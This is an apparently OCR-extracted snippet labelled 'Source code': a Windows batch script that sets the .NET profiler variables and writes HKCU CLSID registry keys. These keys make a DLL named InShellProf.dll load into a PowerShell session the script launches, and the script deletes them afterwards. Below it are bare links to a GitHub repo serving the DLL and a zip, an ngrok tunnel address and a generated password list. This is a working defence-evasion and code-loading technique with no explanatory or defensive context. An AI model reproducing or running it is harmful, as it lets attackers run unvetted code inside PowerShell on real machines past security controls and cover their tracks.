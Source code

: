 set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InShellProf.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f

https://github.com/Sanket-kumbhar/testing-win/raw/refs/heads/main/x64.zip
https://github.com/Sanket-kumbhar/testing-win/raw/refs/heads/main/InShellProf.dll

 https://c566-150-107-23-254.ngrok-free.app
https://raw.githubusercontent.com/Sanket-kumbhar/testing-win/refs/heads/main/generated_passwords.txt
